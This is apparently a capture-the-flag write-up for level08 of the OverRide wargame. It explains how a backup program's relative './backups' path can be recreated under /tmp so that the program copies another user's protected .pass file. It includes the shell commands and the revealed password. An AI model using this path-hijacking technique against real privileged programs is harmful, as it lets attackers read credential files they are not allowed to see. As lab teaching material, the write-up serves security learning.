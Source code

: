 # level08
## Program behaviour

1. Ask for `filename` as first argument
2. Try to open `./backups/.log` for logging operations
3. Try to open `filename`
4. Try to open/create `./backups/ + filename`
5. Copy the content of `filename` to `./backups/ + filename`

## Vulnerability

The program uses relative paths to open files in `backups` folder.
This is a bad idea since we can recreate the `./backups/` folder elsewhere (eg: `/tmp/backups`) and the program has no idea that this is not the original folder.
On top of that if we recreate the same directory structure in `/tmp/backups` as the one passed in `filename` we can read the content of any file that the program has the rights to.

## Exploitation

1. Create the necessary folders and change directory to `/tmp`
```sh
level08@OverRide:~$ mkdir -p /tmp/backups/home/users/level09
level08@OverRide:~$ cd /tmp
```

2. Run the program with `/home/users/level09/.pass` as `filename`
```sh
level08@OverRide:~$ ~/level08 /home/users/level09/.pass
level08@OverRide:~$ cat ./backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```